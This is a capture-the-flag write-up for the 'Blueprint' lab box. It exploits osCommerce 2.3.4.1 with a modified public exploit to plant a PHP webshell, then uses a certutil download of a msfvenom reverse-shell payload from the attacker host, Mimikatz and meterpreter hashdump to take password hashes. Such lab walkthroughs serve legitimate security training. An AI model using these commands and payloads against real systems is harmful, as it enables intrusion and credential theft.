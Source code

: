 Blueprint writeup(OSCP ✅ Metasploit)

### Nmap
`nmap -T4 -p- IP -vv`
```
Scanning 10.10.178.111 [65535 ports]
Discovered open port 445/tcp on 10.10.178.111
Discovered open port 80/tcp on 10.10.178.111
Discovered open port 3306/tcp on 10.10.178.111
Discovered open port 139/tcp on 10.10.178.111
Discovered open port 135/tcp on 10.10.178.111
Discovered open port 8080/tcp on 10.10.178.111
Discovered open port 443/tcp on 10.10.178.111

```

I normally try web services ports first. `80, 8080, 443`
The cms `osCommerce` is so obvious. All left to do is just to find the version for searching exploits.

### searchsploit
`searchsploit osCommerce 2.3.4`
```                                                                     |  Path
-------------------------------------------------------------------------------------- ---------------------------------
osCommerce 2.3.4 - Multiple Vulnerabilities                                           | php/webapps/34582.txt
osCommerce 2.3.4.1 - 'currency' SQL Injection                                         | php/webapps/46328.txt
osCommerce 2.3.4.1 - 'products_id' SQL Injection                                      | php/webapps/46329.txt
osCommerce 2.3.4.1 - 'reviews_id' SQL Injection                                       | php/webapps/46330.txt
osCommerce 2.3.4.1 - 'title' Persistent Cross-Site Scripting                          | php/webapps/49103.txt
osCommerce 2.3.4.1 - Arbitrary File Upload                                            | php/webapps/43191.py
osCommerce 2.3.4.1 - Remote Code Execution                                            | php/webapps/44374.py
-------------------------------------------------------------------------------------- ---------------------------------
```

Those 2 seems what we want
```
osCommerce 2.3.4.1 - Arbitrary File Upload               
osCommerce 2.3.4.1 - Remote Code Execution  
```
Both of them works as you may see it been used in some other writeups. But the first one requires installing a database that is too loud might alert the admin users. Let's go with the latter one.

`searchsploit -m 44374.py` to make a copy to the current path. then open it with your favourite editor. I did with `subl 44374.py` since I use sublime.

Can also reach it on exploit db. https://www.exploit-db.com/exploits/44374

line17 has a double slash typo `base_url = "http://localhost//oscommerce-2.3.4.1/catalog/"` it's no big deal but it better to fix it by simply remove it.

`base_url = "http://localhost/oscommerce-2.3.4.1/catalog/"`

### Real journey starts now
After setting up your baseurl and target url, you can just run the script `python3 44374.py`.
Found the system blocked the `system` keyword for php. 
A little googling shows some alternative.
https://stackoverflow.com/questions/7093860/php-shell-exec-vs-exec
https://gist.github.com/LoadLow/90b60bd5535d6c3927bb24d5f9955b80

`shell_exec` and `exec`

#### windows trick/tip/hole here
I tried to see if `shell_exec` or `exec` can be executed.
```
// on Kali
sudo tcpdump -i tun0 icmp
// on 44374.py
payload += 'shell_exec("ping -c 5 ip");'
```
Nothing happened. I can't get them back and it seems not been executed at all. I lost hours here as I was trying some random reverse shell plus other wrong things. **SOLVER**: `ping` for windows `-c` is a wrong parameter. `-n` is what we want.

### Python and PHP payload?
I didn't notice this first. You'll need to find a way out to see the output since your payload is in PHP comments. But the script is in Python.
I didn't try `var_dump(); die();`. It might work for you. These are the final code changes for the webshell.

```
payload = '\');'

# payload += 'exec("ping -n 5 10.x.x.x");'
# payload += '$var = shell_exec("ping -n 5 10.x.x.x");'
# payload += 'echo $var;'

payload += '$var = shell_exec($_GET["cmd"]);'
payload += 'echo $var;' # output make it a real webshell

payload += '/*'
```

### Root flag
```
http://10.10.173.99:8080/oscommerce-2.3.4/catalog/install/includes/configure.php?cmd=whoami
```
You already have root by running `whoami`. `type c:\....\desktop\root.txt.txt` 



### Both OSCP approved Metasploit Usage and non-Metasploit way
https://help.offensive-security.com/hc/en-us/articles/360040165632-OSCP-Exam-Guide

OSCP official doc: You may use the following against all of the target machines:

* multi handler (aka exploit/multi/handler)
* msfvenom
* pattern_create.rb
* pattern_offset.rb

To get a revershell only need the first two.

Generate the payload
```
msfvenom -p windows/meterpreter/reverse_tcp lhost=tun0 lport=12345 -f exe > shell.exe

and make it available for the target to reach
python3 -m http.server 80
```

### windows target get payload from attack(transfer files)
https://www.hackingarticles.in/file-transfer-cheatsheet-windows-and-linux/


```
http://10.10.173.99:8080/oscommerce-2.3.4/catalog/install/includes/configure.php?cmd=certutil -urlcache -f http://ip/shell.exe shell.exe
```

after setup listeners run `shell.exe` to trigger it from the webshell

#### Not using Metasploit
`rlwrap nc -lvnp 12345` to get a better reverse shell. Then upload a `Mimikatz.exe` just like uploading the `shell.exe`.  Use it with commanding `lsadump::sam` to reveal all the hashes.

#### Metasploit exploit/multi/handler
```
use exploit/multi/handler
set payload windows/meterpreter/reverse_tcp
set lhost tun0
set lport 12345
exploit
```
```
msf6 exploit(multi/handler) > exploit

[*] Started reverse TCP handler on 10.x.x.x:12345 

[*] Sending stage (175174 bytes) to 10.10.173.99
[*] Meterpreter session 1 opened (10.x.x.x:12345 -> 10.10.173.99:49500) at 2021-05-16 12:02:18 +1200

meterpreter > hashdump
Administrator:500:aad3b435xxxeeaad3b435b51404ee:549a1bcb88e35dc18cxxx68631411:::
Guest:501:aad3b435bxxxeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c0xxc0:::
```
Just run `hashdump` after the shell connected. The hash between `:hash:::`is what you want to crack for. Job well done.

